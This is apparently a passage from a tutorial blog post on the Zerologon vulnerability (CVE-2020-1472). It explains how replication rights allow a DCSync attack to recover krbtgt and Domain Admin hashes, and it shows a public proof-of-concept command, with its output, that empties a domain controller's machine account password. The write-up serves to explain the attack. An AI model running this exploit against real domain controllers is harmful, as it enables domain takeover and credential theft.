 ![schema_tldr](/assets/posts/2023-07-10-zerologon/schema_tldr.png)

The DC machine account has [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes) and [DS-Replication-Get-Changes-All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all) rights. The attacker can now carry out a DCSync attack, which consists in simulating a replication process by sending an [IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) request to the DRSUAPI to replicate LDAP directory objects in a given naming context (NC), in order to recover Kerberos keys as well as the secrets contained in the `NTDS.dit` database, in particular the NT hash of user krbtgt and Domain Admin (DA).

## Method 1 - Password change technique

> This method illustrates the technique presented in the vulnerability description above.

Set an empty password to the DC machine account with the dirkjanm PoC:

```py
❯ python3 cve-2020-1472-exploit.py DC_account DC_IP_address
Performing authentication attempts...
=============================================================================================================================================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

